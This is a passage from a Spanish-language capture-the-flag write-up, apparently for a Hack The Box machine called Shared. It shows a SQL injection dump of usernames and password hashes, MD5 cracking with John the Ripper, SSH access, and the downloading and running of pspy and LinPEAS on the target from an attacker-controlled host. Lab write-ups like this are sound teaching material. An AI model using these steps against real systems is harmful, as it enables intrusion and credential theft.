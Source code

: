 ```bash
id,username,password
```

```bash
SELECT="group_concat(concat(id,0x7c,username,0x7c,password))" \
FROM="checkout.user" \
	./sqli.sh
```

```bash
1|james_mason|[REDACTED]
```

Sólo hay un resultado, pero tenemos lo que parece un hash MD5 en la columna de contraseña para el usuario james_mason.
Shell as james_mason

intentemos descifrar el hash usando a John the Ripper

```bash
# mhil4ne@kali
hash="" # Hash here
echo "james_mason:$hash" > md5.john
john md5.john \
	--format="raw-md5" \
	--wordlist="rockyou.txt" # classic rockyou.txt wordlist
```

Usando estas credenciales en el servidor SSH del objetivo obtendremos un shell como james_mason.

```bash
# mhil4ne@kali
ssh "james_mason@$rhost"
```

No hay ninguna bandera de usuario en nuestro directorio de inicio, por lo que puede que tengamos que hacer algún movimiento lateral.

# Lateral Movement

Usaremos LinPEAS de PEASS-ng para buscar cualquier información útil en la máquina. También usaremos pspy para husmear en los procesos.

```bash
# mhil4ne@kali
lhost="10.10.14.10" # Listener host
cd $(mktemp -d)
wget \
	"https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64" \
	"https://github.com/carlospolop/PEASS-ng/releases/download/20220522/linpeas.sh"
php -S $lhost:80
```

```bash
# james_mason@shared.htb (SSH)
lhost="10.10.14.10" # Attacker's IP address
mkdir .sneak && cd .sneak
wget "http://$lhost/pspy64" "http://$lhost/linpeas.sh"
bash ./linpeas.sh | tee linpeas.log
```
